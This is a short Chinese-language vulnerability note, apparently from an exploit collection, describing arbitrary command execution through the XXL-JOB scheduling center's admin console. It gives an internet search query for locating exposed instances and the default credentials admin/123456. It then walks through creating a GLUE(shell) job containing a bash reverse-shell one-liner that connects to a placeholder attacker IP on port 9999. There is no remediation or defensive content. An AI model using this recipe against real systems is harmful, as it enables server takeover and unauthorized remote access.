


# XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

<a-checkbox checked>XXL-JOB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="XXL-JOB" || title="任务调度中心"</a-checkbox></br>

## 漏洞复现

登录后台增加一个任务

<a-checkbox checked>默认口令 admin/123456</a-checkbox></br>


<a-checkbox checked>注意运行模式需要为 GLUE(shell)</a-checkbox></br>


点击 GLUE IDE编辑脚本





执行探测出网，和任务调用是否可执行反弹一个shell

```plain
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```


